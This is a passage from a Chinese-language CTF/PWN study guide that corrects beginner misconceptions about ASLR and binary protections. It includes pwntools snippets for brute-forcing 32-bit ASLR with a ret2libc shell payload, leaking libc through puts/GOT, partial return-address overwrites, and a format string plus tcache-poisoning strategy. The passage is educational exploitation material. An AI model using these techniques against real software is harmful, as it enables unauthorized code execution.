4. **学习angr的基础用法**：对于需要求解特定输入的场景，angr可以自动完成

---

## 误区十一：ASLR是不可绕过的

### 误区描述

"开了ASLR就不知道地址了，这个程序没法利用。"

### 为什么会有这个误区

ASLR（地址空间布局随机化）听起来很强大——每次运行地址都变，怎么利用？初学者在第一次遇到ASLR时容易产生无力感。

### 真实情况

ASLR有多个层面的弱点：

**1. 随机熵有限**

| 组件 | 32位熵 | 64位熵 | 暴力破解可行性 |
|------|--------|--------|---------------|
| 栈地址 | ~16 bit (64K种) | ~28 bit | 32位可暴力，64位困难 |
| libc基址 | ~8 bit (256种) | ~28 bit | 32位极易暴力，64位困难 |
| PIE基址 | ~8 bit (256种) | ~28 bit | 同上 |
| 堆地址 | ~13 bit (8K种) | ~28 bit | 32位可暴力 |

在32位系统上，libc基址只有256种可能，暴力破解成功率很高：

```python
# 32位ASLR暴力破解示例（fork型程序，地址不变）
from pwn import *

for i in range(256):
    try:
        p = process('./vuln')
        # 尝试一个libc偏移（假设已知libc版本）
        payload = b'A' * offset
        payload += p32(libc_base_guess + system_offset)
        payload += p32(0)
        payload += p32(libc_base_guess + bin_sh_offset)
        p.send(payload)
        p.sendline(b'id')
        result = p.recv(timeout=1)
        if b'uid=' in result:
            print(f'Success on attempt {i}!')
            p.interactive()
            break
        p.close()
    except:
        p.close()
```

**2. 信息泄露漏洞可以绕过ASLR**

最常见的绕过方式是利用信息泄露漏洞（格式化字符串、OOB读、部分溢出输出）泄露一个已解析的地址：

```python
# 利用puts泄露GOT中某个函数的真实地址
payload = flat(pop_rdi, elf.got['puts'], elf.plt['puts'], elf.sym['main'])
p.send(payload)
leaked = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leaked - libc.sym['puts']
# 现在知道了libc基址，ASLR被绕过
```

**3. 部分覆写（Partial Overwrite）**

只覆盖地址的低字节（1-2字节），可以将控制流重定向到同一页面内的其他位置，完全不需要知道完整地址：

```python
# 只覆写返回地址的最低2字节
# 假设原始返回地址是 0x555555555xxx
# 目标地址是        0x555555555yyy（同一页内，高位不变）
payload = b'A' * offset + p16(target_low_bytes)
# 无需泄露任何地址！
```

**4. 基址不变（fork型程序）**

某些程序（如多线程服务器、fork子进程处理请求的程序）在fork后子进程的地址空间与父进程相同，ASLR只在主进程启动时随机化一次。这意味着：



### 正确做法

1. **检查是否有信息泄露**：格式化字符串、OOB读、能输出未初始化变量等
2. **评估ASLR熵**：32位系统上的ASLR几乎形同虚设
3. **考虑部分覆写**：只改低字节可以在不知道完整地址的情况下跳转
4. **利用fork特性**：如果程序是fork型的，泄露一次地址后可以反复使用
5. **不要轻易放弃**：ASLR只是一个障碍，不是不可逾越的墙

---

## 误区十二：所有保护机制都必须绕过

### 误区描述

"这个程序开了Canary + NX + ASLR + PIE + Full RELRO，每一种都要绕过，太难了，没法利用。"

### 为什么会有这个误区

初学者看到"全开保护"的程序就产生畏惧心理，觉得需要同时绕过所有机制才能利用。

### 真实情况

**不是所有保护都需要绕过。** 实际利用中，很多保护机制与你的利用路径无关：

| 场景 | 需要绕过的保护 | 不需要关注的保护 |
|------|---------------|-----------------|
| 栈溢出→ROP→ret2libc | Canary（泄露）、ASLR（泄露libc） | Full RELRO（不改GOT）、PIE（如果有信息泄露绕过） |
| 堆利用→tcache poisoning→写`__free_hook` | ASLR（需要知道hook地址） | Canary（不涉及栈）、NX（不注入shellcode） |
| 格式化字符串→写GOT | Full RELRO（无法写GOT，需要换方案） | Canary（不涉及栈溢出） |
| SROP | ASLR（需要泄露libc） | Canary、PIE（直接用sigreturn框架） |

**关键洞察：** 选择利用路径时，要找"绕过的保护最少"的路径：



**一个具体例子——全开保护下的利用策略：**

```c
// 假设程序开启了所有保护，但有以下漏洞：
// 1. 格式化字符串漏洞（在某个菜单选项中）
// 2. 堆溢出（在另一个功能中）

// 策略：不碰栈溢出，用格式化字符串+堆利用
// 1. 用格式化字符串泄露栈地址（绕过ASLR）
// 2. 用格式化字符串泄露libc地址（绕过ASLR）
// 3. 用堆溢出进行tcache poisoning
// 4. 用tcache分配到__malloc_hook或__free_hook（2.34之前）
// 5. 触发malloc/free执行system("/bin/sh")

// 注意：全程不需要绕过Canary（没用栈溢出）
// PIE也不需要单独绕过（格式化字符串可以泄露程序基址）
```

### 正确做法

1. **不要被"全开保护"吓到**：分析每种保护是否真的影响你的利用路径
2. **选择最优路径**：漏洞可能有多个，选择需要绕过最少保护的那个
3. **组合利用**：一个漏洞用来泄露信息（绕过ASLR），另一个漏洞用来写内存（劫持控制流）
4. **关注Full RELRO的影响**：如果GOT不可写，就需要寻找其他写入目标（如`__malloc_hook`、`__free_hook`、IO vtable等）

---

## 自查清单：你是否掉入了这些误区？

在完成每一道PWN题或每一次漏洞分析后，用以下清单检验自己的方法论：

```markdown
## PWN解题自查清单

### 分析阶段
- [ ] 我是否先运行了checksec检查保护机制？
- [ ] 我是否确定了libc版本？
- [ ] 我是否完整阅读了程序逻辑（不只是找到溢出点）？
- [ ] 我是否检查了所有可用功能（不只是有漏洞的那个）？

### 利用方案设计阶段
- [ ] 我是否考虑了所有保护机制对我的影响？
- [ ] 我是否选择了绕过最少保护的利用路径？
- [ ] 我是否理解了利用技术的底层原理（不只是背步骤）？
- [ ] 我是否考虑了栈对齐等细节问题？

### EXP编写阶段
- [ ] 我是否使用了题目提供的libc进行本地调试？
- [ ] 我是否使用了自动化模板提高效率？
- [ ] 我是否在本地和远程都测试了EXP？
- [ ] 我是否处理了网络延迟等远程特有问题？

### 复盘阶段
- [ ] 我是否理解了这个题目的核心考点？
- [ ] 我能否用自己的话解释利用原理？
- [ ] 如果防护再增加一种，我能否调整利用方案？
```

---

## 总结

PWN学习中的误区本质上都源于同一种认知偏差：**将复杂系统简化为简单模型**。写EXP只是PWN的一小部分；栈溢出不一定能拿shell；堆利用不一定比栈难；ASLR不一定无法绕过；全开保护不一定无法利用。

破除这些误区的关键是：

1. **深入底层**：理解操作系统、编译器、链接器的工作机制，而不是停留在工具使用层面
2. **理解原理**：每个利用技术都要搞清楚"为什么有效"和"在什么条件下失效"
3. **实践验证**：不要停留在理论推演，用GDB单步验证每一个假设
4. **持续学习**：glibc不断加固、新利用技术不断出现，保持学习的习惯

PWN是一个需要深度思考的领域。与其背诵100个利用模板，不如深入理解10个利用原理。前者让你能解特定类型的题，后者让你能面对任何新场景。
